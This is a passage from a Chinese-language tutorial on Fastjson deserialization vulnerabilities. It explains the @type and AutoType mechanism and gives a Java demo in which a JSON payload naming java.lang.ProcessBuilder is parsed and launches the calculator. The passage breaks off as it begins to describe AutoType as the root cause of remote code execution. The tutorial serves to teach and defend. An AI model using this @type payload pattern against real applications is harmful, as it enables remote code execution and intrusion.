 对象。  
因为  
jsonString2 的字段名与Person类的属性名不相同，所在，在demo中  
使用了@JSONField注解来指定Java类的属性和JSON字段之间的映射关系。  
  
  
Fastjson  
反序列化漏洞都会提到@type注解，它是用于标识JSON字符串中的某个属性是一个Java对象的类型，当  
Fastjson  
从JSON字符串反序列化为Java对象时，如果JSON字符串中包含@type属性，fastjson会根据该属性的值来确定反序列化后的Java对象的类型。如下示例，通过  
@type弹出计算机窗口，  
由于fastjson在1.2.24之后默认禁用Autotype，因此这里我们通过ParserConfig.getGlobalInstance().addAccept("java.lang")来开启。  

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.IOException;
import java.util.List;
public class TypeDemo {
    public static void main(String[] args) {
        String jsonString = &#34;[{\&#34;@type\&#34;:\&#34;java.lang.ProcessBuilder\&#34;, \&#34;command\&#34;:[\&#34;calc\&#34;]}]&#34;;
        ParserConfig.getGlobalInstance().addAccept(&#34;java.lang&#34;);
        List<ProcessBuilder> list = JSON.parseArray(jsonString, ProcessBuilder.class);
        // 触发执行
        try {
            list.get(0).start();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    }
```

  
  
二、漏洞本质：AutoType的潘多拉魔盒  
  
**Fastjson漏洞根源**  
在于它  
的
```
autoType
```

  
特性，当反序列化过程中遇到
```
@type
```

  
字段时，  
Fastjson  
会尝试动态加载并实例化指定类。攻击者精心构造恶意  
json  
数据，诱导应用加载危险类，触发RCE、文件读取等攻击：  
